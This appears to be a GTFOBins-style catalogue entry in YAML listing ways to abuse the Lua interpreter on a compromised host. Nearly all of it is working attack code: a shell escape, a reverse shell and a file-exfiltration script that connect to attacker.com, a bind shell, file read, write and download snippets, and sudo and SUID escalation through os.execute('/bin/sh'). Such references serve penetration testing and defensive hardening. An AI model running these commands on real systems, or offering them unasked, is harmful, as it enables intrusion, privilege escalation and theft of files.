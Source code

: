 ```yaml
---
functions:
  shell:
    - code: lua -e 'os.execute("/bin/sh")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires `lua-socket` installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        lua -e 'local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        lua -e '
          local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: Fetch a remote file via TCP. Run `nc target.com 12345
        < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: lua -e 'local f=io.open("file_to_write", "wb"); f:write("DATA"); io.close(f);'
  file-read:
    - code: lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
  suid:
    - code: lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
  sudo:
    - code: sudo lua -e 'os.execute("/bin/sh")'
  limited-suid:
    - code: ./lua -e 'os.execute("/bin/sh")'
---
```


